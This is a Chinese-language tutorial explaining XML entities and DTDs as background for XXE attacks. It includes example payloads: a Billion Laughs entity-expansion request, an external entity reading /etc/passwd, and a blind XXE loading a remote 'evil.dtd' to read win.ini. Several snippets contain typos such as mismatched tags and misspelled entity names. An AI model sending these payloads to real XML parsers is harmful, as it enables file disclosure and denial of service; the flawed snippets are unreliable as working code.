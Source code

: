 ```yaml
---
title: XXE 相关基础概念
id: zhfly3585
---
```


## XXE 相关基础概念

**XML&DTD**

XML(可扩展标记语言，EXtensible Markup Language )，是一种标记语言，用来传输和存储数据

DTD(文档类型定义，[Document](http://www.liuhaihua.cn/archives/tag/document) Type Definition )的作用是定义XML文档的合法构建模块。它使用一系列的合法元素来定义文档结构。

**实体ENTITY**

XML中的实体类型，一般有下面几种：字符实体，命名实体（或内部实体）、外部实体（包含分为：外部普通实体、外部参数实体）。除外部参数实体外，其他实体都以字符（&）开始以字符（；）结束。

**DTD引用方式**

a)DTD 内部声明

```
<!ENTITY 实体名称 SYSTEM "URI/URL" 
```

b)DTD 外部引用

```
<!DOCTYPE 根元素名称 SYSTEM “外部DTD的URI"> 
```

c)引用公共DTD

```
<!DOCTYPE 根元素名称 PUBLIC “DTD标识名" “公用DTD的URI"> 
```

**0x1:字符实体**

字符实体类似html的实体编码，形如a(十进制)或者a（十六进制）。

**0x2:命名实体（内部实体）**

内部实体又叫命名实体。命名实体可以说成是变量声明，命名实体只能生命在DTD或者XML文件开始部分（<!DOCTYPE>语句中）。

命名实体（或内部实体语法）:

```
<!ENTITY 实体名称 "实体的值"> 
```

如：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY x "First Param!">
    <!ENTITY y "Second Param!">
]>
<root><x>&x;</x><y>&y;</y></root> 
```

说明：

定义一个实体名称x 值为First Param!

&x; 引用实体x

知道以上语法后，可以使用名为foo的数据类型定义（DTD）构造如下请求:

request:

```
POST http://example.com/xml HTTP/1.1 `<!DOCTYPE foo [

<!ELEMENT foo ANY>

<!ENTITY bar “World”>

]>

<foo>

Hello &bar;

</foo>` 
```

respone:

```
HTTP/1.0 200 OK `Hello World` 
```

bar元素是单词“World”的别名 。看起来这样的内部实体似乎无害，但攻击者可以使用XML实体通过在实体内的实体内嵌入实体来导致拒绝服务攻击。通常被称为“ （Billion Laughs attack）[十亿笑攻击](https://en.wikipedia.org/wiki/Billion_laughs) ”。某些XML解析器会自动限制它们可以使用的内存量。

如：

request:

```
POST http://example.com/xml HTTP/1.1 `<!DOCTYPE foo [

<!ELEMENT foo ANY>

<!ENTITY bar "World ">

<!ENTITY t1 “&bar;&bar;”>

<!ENTITY t2 “&t1;&t1;&t1;&t1;”>

<!ENTITY t3 “&t2;&t2;&t2;&t2;&t2;”>

]>

<foo>

Hello &t3;

</foo>` 
```

response:

```
HTTP/1.0 200 OK `Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World` 
```

0x3):外部**普通实体**

外部实体用于加载外部文件的内容。(显示XXE攻击主要利用普通实体)

外部普通实体语法：

```
<!ENTITY 实体名称 SYSTEM "URI/URL" 
```

如：

```
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</xxe>
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPe root [
    <!ENTITY outfile SYSTEM "outfile.xml">
]>
<root><outfile>&outfile;</outfile></root> 
```

0x4):外部**参数实体**

```
<!ENTITY % 实体名称 "实体的值">
or
<!ENTITY % 实体名称 SYSTEM "URI"> 
```

参数实体用于DTD和文档的内部子集中。与一般实体不同，是以字符（%）开始，以字符(;)结束。只有在DTD文件中才能在参数实体声明的时候引用其他实体。(Blind XXE攻击常利用参数实体进行数据回显)

### 示例：

> 第一个例子

```
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://xxxx/evil.dtd">
%xxe;]>
<foo>&evil;</foo> 
```

外部evil.dtd中的内容。

```
<!ENTITY evil SYSTEM “file:///c:/windows/win.ini" > 
```

> 第二个例子

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY % param1 "Hello">
    <!ENTITY % param2 " ">
    <!ENTITY % param3 "World">
    <!ENTITY dtd SYSTEM "combine.dtd">
    %dtd;
]>
<root><foo>&content</foo></root> 
```

combine.dtd的内容为：

```
<!ENTITY content "%parm1;%parm2;%parm3;"> 
```

说明：

上面combine.dtd中定义了一个基本实体，引用了3个参数实体：%param1;，%param2;，%param3;。

解析后 … 中的内容为Hello World。